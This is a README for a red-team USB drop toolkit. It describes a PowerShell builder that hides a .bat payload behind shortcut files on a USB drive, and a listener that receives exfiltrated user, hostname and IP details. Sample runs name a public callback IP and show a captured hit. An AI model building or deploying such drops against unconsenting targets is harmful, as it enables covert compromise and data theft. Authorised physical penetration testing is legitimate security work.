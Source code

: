 # USB Drop Toolkit
___
USB Drop Toolkit is a red team utility designed for physical security assessments where USB drops are part of the engagement. This toolkit includes:
	•	A PowerShell script to format USB drives with hidden .bat payload executed by shortcut files.
	•	A listener to capture exfiltrated host and network details

Base version of this isn't built for C2, but totally could be... just not worth the maintenance here...
___
## Usage

1. Use usb_drop_builder.ps1 to generate USB with hidden .bat paylaod.
```ps1
PS C:\Users\matt\Downloads> .\usb_drop_builder.ps1 54.218.99.118
Select a USB drive to format and prepare:
[0] E: WORK_DOCS (28.89 GB free)
Enter number of drive to use: 0

[+] USB drop successfully created at E:\
DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining     Size
----------- ------------ -------------- --------- ------------ ----------------- -------------     ----
E           WORK_DOCS    FAT32          Removable Healthy      OK                     28.89 GB 28.89 GB
```
2. Start publicly accessible listener... then profit:
```bash
./usb_listener.sh
[*] Listening on port 8080
[*] Logging to ./usb_drop_logs.txt

=== Hit @ 2025-06-05 03:42:58 ===
User: hackerman\matt
Hostname: Hackerman
Internal IPs:
IPv4 Address. . . . . . . . . . . : <redacted-ip>
IPv4 Address. . . . . . . . . . . : <redacted-ip>
External IP Address: <redacted-ip>
```
